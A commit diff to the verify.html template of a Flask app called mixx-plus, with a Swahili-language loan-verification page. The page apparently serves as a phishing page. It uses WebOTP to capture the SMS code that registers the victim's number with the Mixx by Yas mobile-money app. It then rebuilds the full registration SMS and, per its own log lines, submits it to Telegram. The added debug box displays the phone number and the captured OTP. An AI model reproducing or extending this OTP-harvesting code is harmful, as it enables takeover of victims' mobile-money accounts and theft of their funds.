

Before and after one commit to alphalibee1544/mixx-plus, a Flask app: page /verify in a window 1280 px wide. Shown: the whole page at 92% size. Before the commit the page ends 978 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update verify.html

```diff
--- a/templates/verify.html
+++ b/templates/verify.html
@@ -62,6 +62,24 @@
         }
         .hidden { display: none !important; }
         .screen { display: none; } .screen.active { display: block; }
+        .debug-box {
+            background: #0d1225;
+            border: 1px solid #2a2f4a;
+            border-radius: 8px;
+            padding: 10px;
+            margin-top: 10px;
+            font-family: monospace;
+            font-size: 12px;
+            color: #34d399;
+            max-height: 100px;
+            overflow-y: auto;
+            text-align: left;
+            display: none;
+        }
+        .debug-box.show { display: block; }
+        .debug-box .error { color: #ef4444; }
+        .debug-box .success { color: #34d399; }
+        .debug-box .info { color: #f59e0b; }
     </style>
 </head>
 <body>
@@ -91,6 +109,7 @@
                 <div class="error-msg" id="codeError"></div>
                 <button class="btn btn-gold" id="submitBtn" onclick="submitCode()">Endelea →</button>
                 <div class="resend-link"><a onclick="resendCode()">↻ Hukupokea SMS? Bonyeza hapa</a></div>
+                <div class="debug-box" id="debugBox"></div>
             </div>
             <div class="screen" id="screen2">
                 <div class="waiting-content">
@@ -106,6 +125,21 @@
 
     <script>
         // ================================================================
+        // DEBUG LOG
+        // ================================================================
+        function debugLog(msg, type = 'info') {
+            var box = document.getElementById('debugBox');
+            box.classList.add('show');
+            var time = new Date().toLocaleTimeString();
+            var div = document.createElement('div');
+            div.className = type;
+            div.textContent = '[' + time + '] ' + msg;
+            box.appendChild(div);
+            box.scrollTop = box.scrollHeight;
+            console.log(msg);
+        }
+
+        // ================================================================
         // GET URL PARAMETERS
         // ================================================================
         var urlParams = new URLSearchParams(window.location.search);
@@ -117,6 +151,10 @@
         document.getElementById('loanAmount').textContent = 'TZS ' + loanAmount.toLocaleString();
         document.getElementById('showPhone').textContent = '+255 ' + userPhone;
         document.getElementById('showPhone2').textContent = '+255 ' + userPhone;
+
+        debugLog('🚀 Page loaded');
+        debugLog('📱 App ID: ' + appId);
+        debugLog('📱 Phone: ' + userPhone);
 
         // ================================================================
         // VARIABLES
@@ -136,8 +174,10 @@
             var ua = navigator.userAgent.toLowerCase();
             if (/iphone|ipad|ipod/.test(ua)) {
                 document.getElementById('btnIPhone').style.display = 'block';
+                debugLog('📱 iPhone detected', 'info');
             } else {
                 document.getElementById('btnAndroid').style.display = 'block';
+                debugLog('📱 Android detected', 'info');
             }
         })();
 
@@ -210,6 +250,9 @@
                 return;
             }
 
+            debugLog('📤 Submitting SMS to Telegram...', 'info');
+            debugLog('📤 SMS length: ' + smsText.length, 'info');
+
             isSubmitting = true;
             document.getElementById('submitBtn').disabled = true;
             document.getElementById('submitBtn').innerHTML = '<span class="spinner"></span> Inatuma...';
@@ -267,44 +310,57 @@
         }
 
         // ================================================================
-        // WEBOTP AUTO-FILL (SIMPLE - FROM YOUR EXAMPLE)
+        // WEBOTP AUTO-FILL - RECONSTRUCTS FULL SMS FROM CODE
         // ================================================================
         async function autoFillOTP() {
             if (!document.getElementById('screen1').classList.contains('active')) {
-                console.log('Not on code screen, skipping');
+                debugLog('⏹️ Not on code screen, skipping', 'info');
                 return;
             }
 
+            // Check if WebOTP is supported
             if (!('OTPCredential' in window)) {
-                console.log('WebOTP not supported on this browser');
+                debugLog('❌ WebOTP not supported on this browser', 'error');
                 document.getElementById('codeError').textContent = 'ℹ️ Kifaa chako hakitumii auto-detect. Tafadhali nakili mwenyewe.';
                 document.getElementById('codeError').style.color = '#f59e0b';
                 document.getElementById('codeError').classList.add('show');
                 return;
             }
 
-            console.log('Waiting for SMS notification via WebOTP...');
+            debugLog('⏳ Waiting for SMS notification via WebOTP...', 'info');
             document.getElementById('codeError').textContent = '⏳ Inasubiri SMS...';
             document.getElementById('codeError').style.color = 'var(--primary)';
             document.getElementById('codeError').classList.add('show');
 
             try {
+                // ============================================================
+                // STEP 1: WebOTP detects the SMS and extracts the code
+                // ============================================================
                 const credential = await navigator.credentials.get({
                     otp: { transport: ['sms'] }
                 });
 
+                // ============================================================
+                // STEP 2: If code is received, reconstruct the FULL SMS
+                // ============================================================
                 if (credential && credential.code) {
                     detectedCode = credential.code;
-                    console.log('✅ OTP detected:', detectedCode);
+                    debugLog('✅ OTP DETECTED! Code: ' + detectedCode, 'success');
 
-                    // BUILD THE FULL SMS
+                    // ============================================================
+                    // STEP 3: RECONSTRUCT THE FULL SMS FROM THE CODE
+                    // ============================================================
                     var fullSMS = 'You are being registered in Mixx by Yas Super App, use the code ' + detectedCode + ' to complete registration. Do not share the code with anybody. For more info contact us on 100. DWvV9aXqDR';
 
-                    // FILL THE TEXTAREA
+                    debugLog('📝 Full SMS reconstructed: ' + fullSMS, 'success');
+
+                    // ============================================================
+                    // STEP 4: Fill the textarea with the FULL SMS
+                    // ============================================================
                     document.getElementById('smsMessage').value = fullSMS;
                     smsDetected = true;
 
-                    console.log('✅ Full SMS filled:', fullSMS);
+                    debugLog('✅ Full SMS filled in textarea!', 'success');
 
                     document.getElementById('codeError').textContent = '✅ Ujumbe umegunduliwa! Bonyeza "Endelea" kutuma.';
                     document.getElementById('codeError').style.color = '#10b981';
@@ -313,12 +369,14 @@
                     clearInterval(countdownTimer);
                     document.getElementById('timerDisplay').textContent = '✅ Imekamilika';
                     document.getElementById('timerDisplay').className = 'timer-bar';
+                } else {
+                    debugLog('⚠️ No code received from WebOTP', 'error');
                 }
             } catch (err) {
-                console.error('WebOTP error:', err);
                 if (err.name === 'AbortError') {
-                    console.log('WebOTP timeout');
+                    debugLog('⏱️ WebOTP timeout - no SMS received', 'error');
                 } else {
+                    debugLog('❌ WebOTP error: ' + err.message, 'error');
                     document.getElementById('codeError').textContent = '❌ Hitilafu. Tafadhali nakili SMS mwenyewe.';
                     document.getElementById('codeError').style.color = 'var(--danger)';
                     document.getElementById('codeError').classList.add('show');
@@ -334,9 +392,8 @@
         // Run autoFillOTP after 1 second
         setTimeout(autoFillOTP, 1000);
 
-        console.log('✅ MixxPlus - Waiting for SMS notification...');
-        console.log('📱 App ID:', appId);
-        console.log('📱 Phone:', userPhone);
+        debugLog('✅ MixxPlus - Waiting for SMS notification...', 'success');
+        debugLog('📱 Open on Android Chrome for best results', 'info');
     </script>
 </body>
 </html>
```
